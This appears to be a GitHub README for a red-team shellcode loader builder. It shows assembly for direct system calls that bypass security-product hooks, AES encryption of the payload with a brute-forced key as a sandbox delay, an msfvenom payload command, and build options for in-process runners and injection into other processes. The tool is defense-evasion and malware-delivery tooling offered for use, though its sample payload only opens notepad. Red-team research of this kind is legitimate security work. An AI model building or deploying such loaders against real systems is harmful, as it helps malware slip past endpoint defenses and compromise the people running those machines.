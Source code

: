 # GENERIC SYSCALL
This code impliments the Sorting by System Call Address method described in a [blogpost.](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/)<br>

quick disasm with https://defuse.ca/online-x86-assembler.htm#disassembly
```
ZwX:
   58                          pop     rax            ; return address
   41 5A                       pop     r10
   50                          push    rax            ; save in shadow space as _rcx
   51                          push    rcx            ; rax = ssn
   58                          pop     rax
   52                          push    rdx            ; rcx = arg1
   41 5A                       pop     r10
   41 50                       push    r8             ; rdx = arg2
   5A                          pop     rdx
   41 51                       push    r9             ; r8 = arg3
   41 58                       pop     r8             ; r9 = arg4
   4C 8B 4C 24 20              mov     r9, [rsp + 0x20]
   0F 05                       syscall
   FF 64 24 18                 jmp     qword[rsp]
```

Additionally shellcode is encrypted with AES-CBC encryption via the kokke TinyAES library.  
The IV and key are generated with the get_random_bytes function in the pycryptodome library.  
The shellcode payload is decrypted with a crude brute-force loop of the last two bytes of the key instead of using the sleep function.  
```c 
for (int i = 0x00; i<=0xff;i++) {
    key[14] = i;
    for (int j = 0x00; j <= 0xff;j++) {
        key[15] = j;
        AES_init_ctx_iv(&ctx, key, iv);
        AES_CBC_decrypt_buffer(&ctx, encrypted_instructions, ENCRYPTED_BIN_LEN);
``` 
There is a loader, which just runs the shellcode in the same process via function pointer, a loader that does the same thing but via sections, and a process injector.  

requirments:
```
gcc
python3
nasm
```

use  
`python3 -m venv env`  
`source env/bin/activate`  
`pip install pycryptodome`  
`msfvenom -p windows/x64/exec CMD='C:\Windows\System32\notepad.exe' EXITFUNC=process -f raw -o test.bin`  
`python build.py -inbin test.bin -execmethod runner`  


```
usage: builder.py [-h] [-inbin INBIN] [-execmethod {section_inject,section_runner,section_runner_dll,runner,runner_dll}] [--process PROCESS] [--cmdline CMDLINE] [--v V]

generate AES encrypted shellcode runners

optional arguments:
  -h, --help            show this help message and exit
  -inbin INBIN          .bin file
  -execmethod {section_inject,section_runner,section_runner_dll,runner,runner_dll}
  --process PROCESS     process to inject (only with 'section_inject')
  --cmdline CMDLINE     cmdline argument to show
  --v V                 print config
  ```  


### References & Reading
Generally:
hasherezade 
forrestorr
batsec  
https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams
https://github.com/simon-whitehead/assembly-fun/blob/master/windows-x64/README.md  